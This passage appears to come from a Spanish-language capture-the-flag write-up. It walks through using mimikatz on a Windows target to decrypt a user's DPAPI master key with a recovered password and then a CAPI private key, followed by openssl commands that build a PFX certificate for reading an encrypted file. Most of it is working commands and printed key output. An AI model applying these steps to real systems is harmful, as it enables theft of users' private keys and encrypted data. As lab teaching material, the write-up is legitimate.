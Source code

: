 ```null
----                -------------         ------ ----                                                                                                                                                            
-a-hs-       12/28/2018   9:56 PM            468 2f452fc5-c6d2-4706-a4f7-1cd6b891c017                                                                                                                            
-a-hs-       12/28/2018   9:56 PM             24 Preferred                                                                                                                                                       


PS C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011> 
```

```null
PS C:\Windows\Temp> .\mimikatz.exe "dpapi::masterkey /in:C:\Users\tolu\AppData\Roaming\Microsoft\Protect\S-1-5-21-3107372852-1132949149-763516304-1011\2f452fc5-c6d2-4706-a4f7-1cd6b891c017 /password:!zaq1234567
890pl!99" "exit"
```

Al final del todo reporta la masterkey en SHA1

```null
[masterkey] with password: !zaq1234567890pl!99 (normal user)
  key : 1d0cea3fd8c42574c1a286e3938e6038d3ed370969317fb413b339f8699dcbf7f563b42b72ef45b394c61f73cc90c62076ea847f4c1e1fee3947f381d56d0f02
  sha1: 8ece5985210c26ecf3dd9c53a38fc58478100ccb
```

Ahora puedo desencriptar la clave privada, para poder exportarla

```null
PS C:\Windows\Temp> .\mimikatz.exe "dpapi::capi /in:C:\Users\tolu\AppData\Roaming\Microsoft\Crypto\RSA\S-1-5-21-3107372852-1132949149-763516304-1011\307da0c2172e73b4af3e45a97ef0755b_86f90bf3-9d4c-47b0-bc79-380
521b14c85 /masterkey:8ece5985210c26ecf3dd9c53a38fc58478100ccb" "exit"
```

La descargo a mi equipo y con openssl, puedo utilizarla para crear una clave pública.

```null
openssl x509 -inform DER -outform PEM -in 91EF5D08D1F7C60AA0E4CEE73E050639A6692F29.der -out public.pem
```

También necesito una clave privada, pero no la que ya tengo, si no una generada a partir de esta

```null
openssl rsa -inform PVK -outform PEM -in file.keyx.rsa.pvk -out private.pem
```

Solo falta crear un certificado, que en caso de instalarlo, podré ver el contenido del archivo

```null
openssl pkcs12 -in public.pem -inkey private.pem -password pass:mimikatz -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
